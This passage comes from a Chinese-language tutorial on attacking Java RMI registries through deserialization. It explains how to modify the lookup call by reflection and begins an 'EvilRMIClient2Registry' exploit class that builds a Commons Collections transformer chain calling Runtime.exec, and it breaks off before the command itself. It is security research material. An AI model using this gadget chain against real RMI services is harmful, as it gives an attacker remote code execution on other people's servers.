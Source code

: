 ```java
            rc.callRemote("server");
        } catch (Exception ex) {
            ex.printStackTrace();
        }
    }
}
```
### 客户端攻击注册中心
前面提到，当注册中心在处理`lookup`请求时会尝试从数据流中调用`readObject()`方法读取一个字符串对象。那么只要伪造一个数据流与`Registry`进行交互即可，但是`lookup`方法只接受字符串对象，这里可以选择直接伪造`tcp`连接数据进行攻击，当然这样比较麻烦，切需要对协议有一定了解，并且不通用。
这里通过反射的方式，修改`lookup`方法最终的调用参数。
首先通过前面的分析，`Client`调用`getRegistry()`后会动态创建`RegistryImpl_Stub`并返回，后续操作会由它进行。
其中和`lookup`相关的代码如下
```java
public java.rmi.Remote lookup(java.lang.String $param_String_1)
        throws java.rmi.AccessException, java.rmi.NotBoundException, java.rmi.RemoteException {
    try {
        StreamRemoteCall call = (StreamRemoteCall)ref.newCall(this, operations, 2, interfaceHash);
        try {
            java.io.ObjectOutput out = call.getOutputStream();
            out.writeObject($param_String_1);
        } catch (java.io.IOException e) {
            throw new java.rmi.MarshalException("error marshalling arguments", e);
        }
        ref.invoke(call);
        java.rmi.Remote $result;
        try {
            java.io.ObjectInput in = call.getInputStream();
            $result = (java.rmi.Remote) in.readObject();
        } catch (ClassCastException | IOException | ClassNotFoundException e) {
            call.discardPendingRefs();
            throw new java.rmi.UnmarshalException("error unmarshalling return", e);
        } finally {
            ref.done(call);
        }
        return $result;
    } catch (java.lang.RuntimeException e) {
        throw e;
    } catch (java.rmi.RemoteException e) {
        throw e;
    } catch (java.rmi.NotBoundException e) {
        throw e;
    } catch (java.lang.Exception e) {
        throw new java.rmi.UnexpectedException("undeclared checked exception", e);
    }
}
```
由此可以通过反射操作，创建一个`StreamRemoteCall`对象，获取期输出流，并调用`writeObject()`向其中写入恶意的反序列化对象。之后`ref.invoke(call);`即可，具体代码如下
```java
public class EvilRMIClient2Registry {

    public Object create() throws ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
```